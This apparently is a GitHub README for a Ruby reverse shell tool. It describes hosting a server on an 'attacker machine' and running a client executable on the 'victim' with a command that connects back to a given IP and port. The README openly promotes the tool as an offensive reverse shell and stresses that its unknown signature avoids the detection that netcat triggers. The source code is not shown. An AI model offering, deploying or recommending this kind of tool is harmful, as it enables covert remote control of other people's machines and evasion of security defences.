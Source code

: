 # Ruby Reverse Shell



## Requirements:

**=> Server that receives the reverse shell must have ruby installed, they victim doesn't**

<br>
These are scripts/exes that can be used as a better reverse shell. It's a basic reverse shell. Same would be possible using netcat. The advantage is that this program has a unique signature while netcat's exe is known.

<br>
<br>

Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
